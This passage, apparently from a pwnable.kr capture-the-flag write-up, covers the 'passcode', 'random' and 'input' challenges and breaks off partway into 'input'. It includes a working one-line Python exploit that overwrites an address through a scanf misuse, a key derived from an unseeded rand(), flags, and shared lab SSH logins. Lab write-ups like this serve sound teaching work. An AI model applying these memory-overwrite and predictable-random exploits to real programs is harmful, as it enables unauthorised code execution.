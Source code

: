 ```UPX...? sounds like a delivery service :)```
* scanf uses %d so we need to convert the second address into decimal integer
  * 0x80485e3 = 134514147
```sh
python -c 'print "\x01"*96 + "\x04\xa0\x04\x08" + "134514147"' | ./passcode
```
### Flag
```Sorry mom.. I got confused about scanf usage :(```

## random
### Description
> Daddy, teach me how to use random value in programming!
> 
> ssh random@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  ```c
  unsigned int random;
  random = rand();        // random value!

  unsigned int key=0;
  scanf("%d", &key);

  if( (key ^ random) == 0xdeadbeef ){
    printf("Good!\n");
    system("/bin/cat flag");
    return 0;
  }
  ```
  * We need to provide a key such that key^random == 0xdeadbeef
  * The problem is that the [rand() function is called without a random seed](https://stackoverflow.com/questions/54847461/rand-function-producing-same-output-every-time-c/54847513), so it's actually predictable and have the same sequence of value each time the program executed
  * The output of rand() is same across the entire system, so we can write another c program using rand() function without key to find out the random value
    * In this case, it's 1804289383
* 1804289383 ^ key = 0xdeadbeef
  * key = 0xdeadbeef ^ 1804289383 = 3039230856
### Exploit
```sh
random@pwnable:~$ ./random
3039230856
Good!
```
### Flag
```Mommy, I thought libc random is unpredictable...```

## input
### Description
> Mom? how can I pass my input to a computer program?
> 
> ssh input2@pwnable.kr -p2222 (pw:guest)
### Overview
* Code review
  * Stage 1
    ```c
    // argv
    if(argc != 100) return 0;
    if(strcmp(argv['A'],"\x00")) return 0;
    if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
    printf("Stage 1 clear!\n");
    ```
    * Need 100 arguments including filenamne
```